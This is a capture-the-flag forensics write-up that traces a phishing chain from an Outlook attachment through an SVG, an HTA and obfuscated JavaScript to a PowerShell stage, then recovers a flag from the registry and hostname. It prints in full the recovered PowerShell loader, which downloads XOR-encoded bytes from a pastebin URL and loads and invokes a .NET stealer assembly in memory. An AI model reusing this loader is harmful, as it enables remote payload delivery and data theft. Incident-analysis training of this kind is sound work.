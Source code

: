 # [Forensic]NostalgiaS

The CIRT received an IR request from FAIZ Company regarding their accountant, Mr. Kadoya. Threat Intelligence reported that his sensitive data was exfiltrated and sold on the black market. Digital evidence from his workstation was collected for analysis. Examine it to determine the scope, impact, and root cause of the compromise.

The challenge provided `challenge.zip`, extracted we got `.ad1` file. Overall, we have find out flag from this `.ad1` file.

## Solution

Using FTK Imager, navigate to `Users\kadoya\...\Outlook`. Here we got mail that kadoya received, that mail contain a file `Moly.zip` which is probably a dangerous file and the password for unzip is `playmoly2025`.

Unzip, we had `playmoly.svg`, I got rick rolled here and forced to learn Trình. Nevermind, just view the source and we can see a link for downloading `FlashInstaller.hta`. Follow up the URL, we navigate to `something.txt`, it contains the obfuscated JavaScript code using `obfuscator.io`. Just deobfuscate it, and continue naviagate to `secr3t.txt` URL, using Cyberchef to decode from Base64 and we got a script

```shell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"

try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()

    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }

    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }

    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }

    $assembly = [System.Reflection.Assembly]::Load($originalBytes)

    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod(
            $MethodName,
            [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public
        )
        $methodInfo.Invoke($null, $null)
    }

} catch {
    exit 1
}
```

This script will get encrypted hex data from Pastebin, decode it and run on victim. This script is extracted from it but removed the running part (only decoding part is remained)

```powershell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$out = Join-Path $PSScriptRoot "payload_decoded.bin"

try {
    $wc = New-Object System.Net.WebClient
    $raw = $wc.DownloadString($AssemblyUrl)
} finally {
    if ($wc) { $wc.Dispose() }
}

$hex = $raw.Trim() -split ',' | Where-Object { $_ -match '^\s*0x[0-9A-Fa-f]{1,2}\s*$' } |
       ForEach-Object { $_.Trim() }

[byte[]]$enc = New-Object byte[] $hex.Count
for ($i=0; $i -lt $hex.Count; $i++) {
    $enc[$i] = [Convert]::ToByte($hex[$i], 16)
}

[byte[]]$dec = New-Object byte[] $enc.Length
for ($i=0; $i -lt $enc.Length; $i++) {
    $dec[$i] = $enc[$i] -bxor $XorKey
}

[System.IO.File]::WriteAllBytes($out, $dec)
Write-Host "[+] Decoded to: $out"

Get-FileHash $out -Algorithm SHA256 | Format-List
"{0} bytes" -f $dec.Length
($dec[0..([Math]::Min(63,$dec.Length-1))] | ForEach-Object { "{0:X2}" -f $_ }) -join ' '
```

Usage

```shell
powershell -NoProfile -ExecutionPolicy Bypass -File .\DecodeOnly-Pastebin.ps1
```

Finally we got a file which is written using .NET, we use dnSpy to decompile

![](https://blog.kakaocdn.net/dna/z1JYm/dJMb9OAHfaI/AAAAAAAAAAAAAAAAAAAAAHAeBcX73PFCA8FDddPJ6SwU-gSjm_bYhZeXWXWdvN-8/img.png?credential=yqXZFxpELC7KVnFOS48ylbz2pIh7yKj8&expires=1761922799&allow_ip=&allow_referer=&signature=xDvDbaPshWlt6LYzeNELQYv%2F1Ic%3D)

Using reverse skill, we got a flag holder

```
CSCV2025{your_computer_<Machine Name>_has_be3n_kicked_by<Registry Value>}
```

Now just find out what is `<Machine Name>` and `<Registry Value>`. From the C# code we know that it will read from `SOFTWARE\\hensh1n`. Using Registry Viewer to view the `NTUSER.dat`. The `<Registry Value>` must be `HxrYJgdu`

For the `<Machine Name>`, just view in `System32\SYSTEM`: `DESKTOP-47ICHL6`

## Craft the flag

**Flag:** CSCV2025{your_computer_DESKTOP-47ICHL6_has_be3n_kicked_byHxrYJgdu}

